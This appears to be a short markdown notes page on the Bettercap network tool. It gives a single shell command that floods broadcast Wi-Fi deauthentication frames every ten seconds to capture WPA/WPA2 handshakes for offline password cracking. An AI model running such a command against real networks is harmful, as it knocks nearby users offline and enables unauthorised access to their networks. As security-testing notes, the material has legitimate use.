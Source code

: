 # Bettercap 

Network reconnaisance tooling, particularly useful for grabbing hasesh to crack

# Capturing WPA/WPA2 Crackable Key MAterials

Run the following to do a mass deauth every 10 seconds on iface wlan0, hopefully capturing some stuff to crack, along with spinning up the http-ui caplet

```shell
$> sudo bettercap -caplet http-ui -iface wlan0 -eval "set ticker.period 10; set ticker.commands wifi.deauth ff:ff:ff:ff:ff:ff; wifi.recon on; ticker on;"
```